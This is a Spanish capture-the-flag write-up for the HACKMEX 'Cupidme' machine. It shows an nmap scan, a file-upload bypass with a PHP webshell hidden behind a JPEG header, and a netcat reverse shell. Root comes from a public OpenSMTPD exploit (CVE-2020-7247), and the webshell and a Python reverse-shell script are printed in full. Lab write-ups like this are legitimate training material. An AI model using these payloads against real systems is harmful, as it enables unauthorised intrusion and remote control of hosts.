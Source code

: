 # Cupidme - HACKMEX

**OS**: Linux   
**Dificultad**: Basic   
**Puntos**: 5,550   

## Resumen 
- Unrestricted File Upload 
- OpenSMTPD - Remote Code Execution 

## Nmap Scan

`nmap 10.10.10.205` 

```
xen@xen-env:~/hackmex$ nmap 10.0.30.187
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-19 13:25 CDT
Nmap scan report for 10.0.30.187
Host is up (0.17s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 19.37 seconds
xen@xen-env:~/hackmex$
```
## Enumeracion 

Enumerando el puerto 80 podemos observar dentro del codigo fuente el siguiente mensaje

```
<!--<form action="upload.php" method="post" enctype="multipart/form-data"> Select image to upload:<br/><input type="file" name="image" id="image"><input type="submit" value="Upload Image" name="submit"></form>-->
```

Haciendo un analisis del codigo fuente, vemos que hace un action hacia el archivo upload.php, en donde realiza una subida de archivos. Asi que probemos como reacciona a nuestra solicitud.

## Unrestricted File Upload

1er intento. Subimos un archivo sencillo

`curl -F "image=@file.txt" http://10.0.30.187/upload.php`

```
Array
(
    [0] => Mimetype not allowed, please upload an image/jpeg file.
)
```

2do intento. Subimos un archivo php con cabecera jpeg

`curl -F "image=@xen.php" http://10.0.30.187/upload.php`

```
Success. file uploaded at images/xen.php
```

Una vez subido con exito nuestra webshell, podemos ejecutar comandos remotamente.

`curl http://10.0.30.187/images/xen.php?xen=id`

```
����
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Ahora probamos una revershell

`curl "http://10.0.30.187/images/xen.php?xen=nc -e /bin/bash 10.10.0.26 2121"`

De nuestro lado recibiremos la conexion

```
xen@xen-env:~/hackmex$ nc -lvp 2121
listening on [any] 2121 ...
10.0.30.187: inverse host lookup failed: Unknown host
connect to [10.10.0.26] from (UNKNOWN) [10.0.30.187] 56334
```

## OpenSMTPD - Remote Code Execution 

Viendo los servicios locales observamos un puerto muy relevante

```
State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    
LISTEN    0         128             127.0.0.11:41037            0.0.0.0:*       
LISTEN    0         128                0.0.0.0:80               0.0.0.0:*       
LISTEN    0         5                127.0.0.1:25               0.0.0.0:*       
LISTEN    0         128              127.0.0.1:9001             0.0.0.0:* 
```

Probando los puertos observamos lo siguiente

```
www-data@cupidme:/tmp$ nc 127.0.0.1 25 
nc 127.0.0.1 25 
220 cupidme.echocity-f.com ESMTP OpenSMTPD
```
Tratando de un servicio llamado OpenSMTP, por lo que buscando un exploit publico damos con el siguiente: [CVE-2020-7247](https://www.exploit-db.com/raw/47984)

Ejecutamos el exploit y esperamos conexion reversa
```
www-data@cupidme:/tmp$ python3 xen.py 127.0.0.1 25 "python3 /tmp/reverse.py"
python3 xen.py 127.0.0.1 25 "python3 /tmp/reverse.py"
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
www-data@cupidme:/tmp$ 
```

Pwn!!

```
xen@xen-env:~/hackmex$ nc -lvp 2222
listening on [any] 2222 ...
10.0.30.187: inverse host lookup failed: Unknown host
connect to [10.10.0.26] from (UNKNOWN) [10.0.30.187] 44170
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

## Archivos utilizados 

**xen.php**
```php
����
<?php system($_GET['xen']);?>
```

**reverse.php**
````python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.26",2222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

